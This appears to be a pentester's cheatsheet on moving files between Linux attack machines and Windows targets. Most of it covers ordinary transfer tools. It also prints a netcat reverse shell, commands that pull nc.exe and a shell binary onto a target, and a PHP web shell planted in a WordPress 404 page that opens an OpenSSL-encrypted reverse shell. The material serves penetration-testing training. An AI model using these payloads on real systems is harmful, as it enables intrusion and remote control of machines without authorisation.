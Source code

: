 ```yaml
---
title: "Comprehensive guide to securely transferring files between Linux and Windows for pentesters and red teamers"
date: 2025-01-22 10:10:00 +0700
categories: [Cheatsheets]
tags: [Cheatsheets, file-transfer, pentesting, red-team]
pin: false
---
```


## Comprehensive guide to securely transferring files Between Linux and Windows for pentesters and red teamers

### Introduction

Transferring files between Linux and Windows securely is a crucial skill for pentesters and Red Teamers. This guide provides step-by-step instructions using various methods, including encrypted transfers, ensuring you can handle different scenarios effectively and securely.

---

### File Transfer Methods

#### Using Python HTTP Server
On Kali:
```bash
python3 -m http.server 80
```

On Windows Target Machine:
```powershell
powershell -c "curl http://127.0.0.1/nc.exe" -o nc.exe
```

---

#### Using Netcat
On Kali:
```bash
nc -nvlp 1234
```

On Windows Target Machine:
```powershell
.\nc.exe 127.0.0.1 1234 -e powershell.exe
```

---

#### Using Wget
On Kali:
```bash
python3 -m http.server 443
```

On Target Machine:
```bash
wget http://127.0.0.1/shell3.elf
```

---

#### Using PowerShell
Download `plink.exe`:
```powershell
curl http://127.0.0.1/plink.exe -o plink.exe
```

Download another tool:
```powershell
iwr http://127.0.0.1/nc.exe -outf .\cute.exe
```

---

#### Using SCP (Secure Copy Protocol)
From Linux to Windows:
```bash
scp file.txt user@127.0.0.1:/path/to/destination
```

From Windows to Linux:
```bash
scp user@127.0.0.1:/path/to/source/file.txt /local/destination
```

---

#### Using SMB (Samba)
From Linux to Windows:
```bash
smbclient //127.0.0.1/share -U user -c "put file.txt"
```

From Windows to Linux:
```bash
smbclient //127.0.0.1/share -U user -c "get file.txt"
```

---

#### Using FTP
Start FTP server on Linux:
```bash
python3 -m pyftpdlib -p 21
```

On Windows Target Machine:
```bash
ftp 127.0.0.1
# Use `put` to upload or `get` to download files.
```

---

#### Using HTTP with Curl on Windows
On Kali:
```bash
python3 -m http.server 8080
```

On Windows Target Machine:
```powershell
curl http://127.0.0.1/file.txt -o file.txt
```

---

#### Using Rsync
From Linux to Windows:
```bash
rsync -avz file.txt user@127.0.0.1:/path/to/destination
```

From Windows to Linux:
```bash
rsync -avz user@127.0.0.1:/path/to/source/file.txt /local/destination
```

---

#### Using FTP via Netcat
On Kali:
```bash
nc -nlvp 9000 < file.txt
```

On Windows Target Machine:
```bash
nc 127.0.0.1 9000 > file.txt
```

---

#### Using Python FTP Client
On Linux:
```bash
python3 -m pyftpdlib -p 21
```

On Windows:
```bash
ftp 127.0.0.1
# Login and use `put` or `get` to transfer files.
```

---

#### Using Tar Over SSH
From Linux to Windows:
```bash
tar czf - file.txt | ssh user@127.0.0.1 "tar xzf - -C /path/to/destination"
```

From Windows to Linux:
```bash
ssh user@127.0.0.1 "tar czf - -C /path/to/source ." | tar xzf - -C /local/destination
```

---

### Advanced Encrypted Transfers

#### Using OpenSSL for Secure Transfers
On Kali:
```bash
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -key key.pem -cert cert.pem -port 1337
```
Start the listener with:
```bash
sudo openssl s_server -key key.pem -cert cert.pem -port 1337
```

#### Exploit Example for File Upload and Execution
On the vulnerable page (e.g., WordPress 404 page):
```php
this is a test
<?= system('mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 127.0.0.1:1337 > /tmp/s; rm /tmp/s'); ?>
```
Update the 404 page, and trigger the shell by visiting:
```
http://localhost.htb/main/wp-content/themes/twentytwenty/404.php
```

#### Stabilizing the Shell
After getting the shell:
```bash
/usr/bin/script -qc /bin/bash /dev/null
```
Press `CTRL + Z`, then run:
```bash
stty raw -echo; fg
# Press Enter twice to stabilize
```


